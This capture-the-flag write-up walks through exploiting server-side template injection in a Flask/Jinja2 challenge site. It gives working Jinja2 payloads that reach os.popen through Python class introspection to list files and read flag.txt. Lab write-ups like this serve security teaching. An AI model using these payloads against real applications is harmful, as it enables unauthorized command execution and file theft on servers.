 ### Starting
For the **Templated** challenge, start an instance and visit the IP displayed.
The description **Can you exploit this simple mistake?** suggests that there is a simple mistake to be exploited.

On visiting the IP, we are greeted with the following page
![Screenshot 1.png](./Screenshot%201.png)
The page displays that it is proudly powered by **Flask/Jinja2**
On inspecting the source code and the requests, there is nothing useful that is found.
The title **Templated** and **Flask/Jinja2** both hint towards Server Side Template Injection (SSTI).

So lets try template injection via the URL. Using `{{7 * '7'}}` as a payload the URL became http://142.93.35.92:31572/{{7*'7'}}
On visiting this URL, we are greeted with the following page.
![Screenshot 2.png](./Screenshot%202.png)
We can see that the payload has been evaluted as '7777777'. This confirms that a template injection vulnerability exists in the site.
A good article on [SSTI with Jinja2](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti) can be found here.
And [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) also has lots of payloads for various languages and the templating engines used in them including Jinja.

So we can use **MRO** function to display classes which will useful in creating the specific payload for the website.
Payload to list files in the current directory
`{{ "".__class__.__mro__[1].__subclasses__()[186].__init__.__globals__['__builtins__']['__import__']('os').popen('ls%20*').read()}}`
The URL will look like
`http://142.93.35.92:31572/{{"".__class__.__mro__[1].__subclasses__()[186].__init__.__globals__['__builtins__']['__import__']('os').popen('ls%20*').read()}}`
![Screenshot 3.png](./Screenshot%201.png)
We can see that flag.txt exists in the current folder.
So we will replace `ls *` with `cat flag.txt` in the payload.
Payload to print flag
`{{ "".__class__.__mro__[1].__subclasses__()[186].__init__.__globals__['__builtins__']['__import__']('os').popen('cat%20flag.txt').read()}}`.
The URL will look like
`http://142.93.35.92:31572/%7B%7B''.__class__.__mro__[1].__subclasses__()[186].__init__.__globals__['__builtins__']['__import__']('os').popen('cat%20flag.txt').read()%7D%7D`
And with this we will have the flag printed on the screen.

